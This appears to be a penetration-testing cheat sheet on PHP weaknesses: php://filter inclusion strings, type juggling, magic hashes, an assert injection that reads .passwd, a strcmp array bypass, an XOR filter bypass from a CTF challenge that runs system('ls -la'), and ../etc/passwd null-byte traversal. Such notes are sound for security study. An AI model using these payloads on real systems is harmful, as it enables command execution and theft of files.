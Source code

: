 ```yaml
---
title: PHP vulnerabilities
description: PHP vulnerabilities
---
```


# PHP

## PHP Wrappers

Official docs [here](https://www.php.net/manual/en/wrappers.php).

All wrappers :

```
file:// — Accessing local filesystem
http:// — Accessing HTTP(s) URLs
ftp:// — Accessing FTP(s) URLs
php:// — Accessing various I/O streams
zlib:// — Compression Streams
data:// — Data (RFC 2397)
glob:// — Find pathnames matching pattern
phar:// — PHP Archive
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — Audio streams
expect:// — Process Interaction Streams
```

File inclusion :

```
php://filter/resource=index.php
php://filter/read=convert.base64-encode/resource=index.php
php://filter/read=string.toupper/resource=index.php
php://filter/read=string.toupper|string.rot13/resource=index.php
```

## Type juggling

If you use `===`, PHP will do a strict comparison.

```php
"1" == 1        True
"1" === 1       False
"admin" == 0    True
"admin" === 0   False
```

You can find the comparison table [here](https://www.php.net/manual/en/types.comparisons.php).

## Magic Hashes

You cand find a list of magic hashes [here](https://github.com/spaze/hashes).

```php
md5('QLTHNDT') = 0e405967825401955372549139051580
0e405967825401955372549139051580 = 0 exponents 405967825401955372549139051580 = 0
php > var_dump(md5('QLTHNDT') == "0");
bool(true)
```

`0 power n` is equals to `0`.

## Interesting function

**eval** code execution :

```php
eval("phpinfo();");
```

**preg_replace** code execution (removed since PHP v7.0.0)

```php
preg_replace('/test/e', 'phpinfo()', 'test');

PREG_REPLACE_EVAL
```

More informations [here](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php)

**assert** without verification :

```php
assert("strpos('includes/$_GET['name'].inc.php', '..') === false")

victim.com/index.php?name=', 'A') === false and strlen(file_get_contents('.passwd')) === 10 and strpos('

Will result as : assert("strpos('includes/', 'A') === false and strlen(file_get_contents('.passwd')) === 10 and strpos('.inc.php', '..') === false")
```

**strcmp** array / null bypass :

```php
php > var_dump(strcmp(Array(), "admin") == 0);
PHP Warning:  strcmp() expects parameter 1 to be string, array given in php shell code on line 1
bool(true)

Ex: strcmp($_GET['username'], 'admin') == 0
victim.com/index.php?name[]=
```

```php
php > var_dump(strcmp(null, "admin") == True);
bool(true)

php > var_dump(strcmp(null, "admin") === True);
bool(false)
```

**preg_match** bypass with XOR :

Example (Challenge Lipogram from FCSC 2020) :

```php
if (preg_match('/a|e|i|o|u|y|[0-9]/i', $_GET['code'])) {
 die('No way! Go away!');
} else {
 try {
 eval($code);
 } catch (ParseError $e) {
 die('No way! Go away!');
 }
}
```

Solve :

```
The goal is to create new GET parameters that will be evaluted by the function eval, but not checked by the preg_match, because the preg_match function will check only the parameter 'code'.

And then, do something like this inside eval :

$_GET['func_name']($_GET['argument']);

victim.com/index.php?func_name=system&argument=ls
will execute : system('ls')
```

```
To create GET parameters we will use the XOR operation to bypass the preg_match.

$_ = "`{{{" ^ "?<>/";                   => _GET
${$_}[_](${$_}[__]);                    => $_GET[_]($_GET[__])
${$_}[_](${$_}[__](${$_}[___]));        => $_GET[_]($_GET[__]($_GET[___]))

victim.com/index.php?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=system&__=ls+-la

victim.com/index.php?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__](${$_}[___]));&_=highlight_string&__=file_get_contents&___=index.php
```

## Tips

### Null byte

Null Byte : %00 (PHP Version < 5.3.4)

`http://victim.com/index.php?file=../etc/passwd%00`
